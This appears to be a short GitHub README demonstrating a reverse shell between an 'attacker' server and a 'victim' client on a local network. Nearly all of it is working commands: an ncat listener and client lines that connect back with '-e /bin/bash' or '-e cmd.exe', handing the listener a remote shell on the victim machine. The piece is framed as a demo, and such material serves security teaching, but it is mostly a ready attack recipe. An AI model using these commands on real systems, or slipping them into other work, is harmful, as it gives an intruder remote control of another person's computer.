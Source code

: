 ## Reverse Shell demo between 2 computers on the same network, a server (attacker computer), and a client (victim computer).
## *Can be done on a remote target but local targets are faster for a demo, result is identical*

### 1) Install NetCat/Nmap


### 2) Set up a listening server:
Run `ncat -lvnp <port>` on the server.


### 3) Connect client to server:
For Linux/Bash:
Run `ncat <server-internal-ip> <port> -e /bin/bash`

For Windows:
Run `ncat <server-internal-ip> <port> -e cmd.exe`

*To find the internal IP run `hostname I` on Linux OR `ipconfig` on Windows.*
